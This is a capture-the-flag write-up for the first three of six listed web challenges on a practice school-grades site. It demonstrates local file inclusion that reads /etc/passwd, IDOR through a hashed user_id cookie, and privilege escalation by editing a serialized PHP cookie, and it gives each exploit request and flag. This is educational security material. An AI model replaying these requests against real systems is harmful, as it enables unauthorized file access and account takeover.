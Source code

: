 # SecTech (6 challenges)

### Summary
1. LFI -> Flag
2. IDOR -> Flag
3. Insecure Deserialization -> Flag
4. XSS in PDF Generator -> Flag
5. SSRF to AWS Metadata -> Flag
6. Misconfigured S3 Bucket -> OSINT of Github Account -> Sensitive Information Disclosure in Git Commits -> Flag

# GovTech SecTech (1/6) - LFI
### Description
WhiteHacks SecTech is an application for SecTech school staff to login to the system and to view students grades and to generate transcripts. However, could you perhaps view more than transcripts?
### Solution

Notice in the 'View Transcript' functionality - http://sec-tech.cf/transcript.php?user=temp_acc&password=temp_pass&user_id=1&file=transcript.html

There is a 'file' parameter, these types of parameters are usually vulnerable to Local File Inclusion

We can dump the /etc/passwd file - http://sec-tech.cf/transcript.php?user=temp_acc&password=temp_pass&user_id=1&file=/etc/passwd

``````
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin 
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List 
Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin 
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin _apt:x:100:65534::/nonexistent:/usr/sbin/nologin systemd-timesync:x:101:102:systemd Time 
Synchronization,,,:/run/systemd:/usr/sbin/nologin systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin systemd-resolve:x:103:104:systemd 
Resolver,,,:/run/systemd:/usr/sbin/nologin messagebus:x:104:105::/nonexistent:/usr/sbin/nologin avahi:x:105:110:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin 
geoclue:x:106:111::/var/lib/geoclue:/usr/sbin/nologin admin:x:1000:1000:admin:/home/admin:/secret_path/lfi_flag.txt 
``````
Notice the last line?
``````
admin:x:1000:1000:admin:/home/admin:/secret_path/lfi_flag.txt 
``````
Let's visit that - http://sec-tech.cf/transcript.php?user=temp_acc&password=temp_pass&user_id=1&file=/secret_path/lfi_flag.txt 

Flag:
WH2020{Loc@l_F1l3_Inclus10n_buT_N0t_sh3ll}

# GovTech SecTech (2/6) - IDOR
### Description
Insecure Direct Object Reference can have severe repercussions for applications. One mitigation technique is to avoid trusting user input. If you are tired, have some cookies with milk?
### Solution

When we visit anywhere in the webpage we notice in Burp Intruder,
``````
GET /profile.php HTTP/1.1
Host: sec-tech.cf
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: sectech=YToyOntzOjQ6InVzZXIiO3M6ODoidGVtcF9hY2MiO3M6NToiYWRtaW4iO2I6MDt9; PHPSESSID=eab13e70980504c609cf4b5b3b8764b8; user_id=c4ca4238a0b923820dcc509a6f75849b
Upgrade-Insecure-Requests: 1
``````
IDOR (Insecure Direct Object Reference) is a easy-to-find yet serious vulnerability affecting web applications. This occurs when user-controlled input is used to access objects in applications

Notice that the user_id in the Cookie: header is a MD5 hash. We can try and search up that hash online - https://md5.gromweb.com/?md5=c4ca4238a0b923820dcc509a6f75849b

``````
The MD5 hash:
c4ca4238a0b923820dcc509a6f75849b
was succesfully reversed into the string:
1
``````
Therefore the we can modify the user_id parameter to a different number - https://www.md5hashgenerator.com/
``````
Your Hash: c81e728d9d4c2f636f067f89cc14862c
Your String: 2
``````
And send it in Burp to profile.php
``````
GET /profile.php HTTP/1.1
Host: sec-tech.cf
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: sectech=YToyOntzOjQ6InVzZXIiO3M6ODoidGVtcF9hY2MiO3M6NToiYWRtaW4iO2I6MDt9; PHPSESSID=eab13e70980504c609cf4b5b3b8764b8; user_id= c81e728d9d4c2f636f067f89cc14862c
Upgrade-Insecure-Requests: 1
``````
We can forward it to our browser for viewing
``````
Item 	Value
Name 	Billie Jean
Role 	Perm Staff
Date of Birth 	1st July 1988
Email 	billie_jean@sectech.com.sg
Flag 	WH2020{ID0R_D0_N0T_TRUST_US3R_INPUT}
``````

Flag:
WH2020{ID0R_D0_N0T_TRUST_US3R_INPUT}

# GovTech SecTech (3/6) - Insecure Deserialization
### Description
Trusting serialized data without verification them can be precarious. To this end, we ask that you be like the Cookie Monster, attentive and inquisitive.
### Solution
We notice again in Burp
``````
GET /admin.php HTTP/1.1
Host: sec-tech.cf
User-Agent: XXXXXXX
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: sectech=YToyOntzOjQ6InVzZXIiO3M6ODoidGVtcF9hY2MiO3M6NToiYWRtaW4iO2I6MDt9; PHPSESSID=eab13e70980504c609cf4b5b3b8764b8; user_id= c81e728d9d4c2f636f067f89cc14862c
Upgrade-Insecure-Requests: 1
``````
We have a 'sectech' parameter in the 'Cookie:' header - It looks like a base64 encoded string.
We can use Burp's Decoder functionality to decode it
``````
Input:
YToyOntzOjQ6InVzZXIiO3M6ODoidGVtcF9hY2MiO3M6NToiYWRtaW4iO2I6MDt9
Output: 
a:2:{s:4:"user";s:8:"temp_acc";s:5:"admin";b:0;}
``````
We notice the 'admin' parameter of the body, this means that our access to the admin functionality is determined by user controlled input!!! We can change the parameter to '1' again using Burp's decoder functionality
``````
Input:
a:2:{s:4:"user";s:8:"temp_acc";s:5:"admin";b:1;}
Output: 
YToyOntzOjQ6InVzZXIiO3M6ODoidGVtcF9hY2MiO3M6NToiYWRtaW4iO2I6MTt9
``````
Changing the 'sectech' parameter to our output shown above.
``````
GET /admin.php HTTP/1.1
Host: sec-tech.cf
User-Agent: XXXXXXX
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: sectech=YToyOntzOjQ6InVzZXIiO3M6ODoidGVtcF9hY2MiO3M6NToiYWRtaW4iO2I6MTt9; PHPSESSID=eab13e70980504c609cf4b5b3b8764b8; user_id= c81e728d9d4c2f636f067f89cc14862c
Upgrade-Insecure-Requests: 1
``````
And we receive the flag!
Flag: WH2020{Cook!3Ins3cur3Des3r!al!zat!on_Adm!nR!ghts}


